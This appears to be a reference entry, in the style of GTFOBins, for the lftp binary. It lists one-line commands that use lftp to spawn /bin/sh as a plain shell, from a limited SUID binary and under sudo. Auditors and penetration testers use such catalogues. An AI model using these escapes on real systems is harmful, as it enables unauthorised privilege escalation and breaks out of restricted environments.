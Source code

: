 functions:
  shell:
    - code: lftp -c '!/bin/sh'
  limited-suid:
    - code: ./lftp -c '!/bin/sh'
  sudo:
    - code: sudo lftp -c '!/bin/sh'
---
